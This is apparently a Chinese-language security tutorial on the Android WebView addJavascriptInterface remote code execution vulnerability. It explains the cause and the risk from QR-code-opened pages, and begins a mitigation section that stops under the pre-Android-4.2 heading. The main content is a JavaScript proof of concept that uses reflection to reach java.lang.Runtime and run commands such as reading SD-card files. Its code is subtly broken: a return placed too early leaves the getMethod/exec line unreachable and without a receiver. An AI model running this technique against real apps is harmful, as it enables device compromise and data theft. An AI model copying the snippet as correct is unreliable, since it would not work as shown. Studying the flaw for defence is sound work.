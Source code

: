 ##### addJavascriptInterface 接口引起远程代码执行漏洞

###### 原因

JS调用Android的其中一个方式是通过`addJavascriptInterface`接口进行对象映射：

```java
webview.addJavascriptInterface(new JSObject(),"myobj");
// 参数1：Android的本地对象
// 参数2：JS的对象
// 通过对象映射将Android中的本地对象和JS中的对象进行关联，从而实现JS调用Android的对象和方法
```

**漏洞产生原因是：当JS拿到Android这个对象后，就可以调用这个Android对象中所有的方法，包括系统类（java.lang.Runtime 类），从而进行任意代码执行。**

> 如可以执行命令获取本地设备的SD卡中的文件等信息从而造成信息泄露

###### 具体获取系统类的描述（结合Java反射机制）

- Android的对象有一公共的方法：getClass()
- 该方法可以获取到当前类类型 Class
- 该类有一关键的方法：Class.forName
- 该方法可以加载一个类（可加载 java.lang.Runtime 类）
- 而该类是可以执行本地命令的

```javascript
function execute(cmdArgs)  
{
    // 步骤1：遍历 window 对象
    // 目的是为了找到包含 getClass （）的对象
    // 因为Android映射的JS对象也在window中，所以肯定会遍历到
    for (var obj in window) {
        if ("getClass" in window[obj]) {
            // 步骤2：利用反射调用forName（）得到Runtime类对象
            alert(obj);
            return  window[obj].getClass().forName("java.lang.Runtime");
            // 步骤3：以后，就可以调用静态方法来执行一些命令，比如访问文件的命令
            getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);  
            // 从执行命令后返回的输入流中得到字符串，有很严重暴露隐私的危险。
            // 如执行完访问文件的命令之后，就可以得到文件名的信息了。
        }
    }
}   
```

###### 危害

- 当一些 APP 通过扫描二维码打开一个外部网页时，攻击者就可以执行这段 js 代码进行漏洞攻击。
- 在微信盛行、扫一扫行为普及的情况下，该漏洞的危险性非常大

###### 解决方案

**Android 4.2版本之后**

Google 在Android 4.2 版本中规定对被调用的函数以 `@JavascriptInterface`进行注解从而避免漏洞攻击

**Android 4.2版本之前**

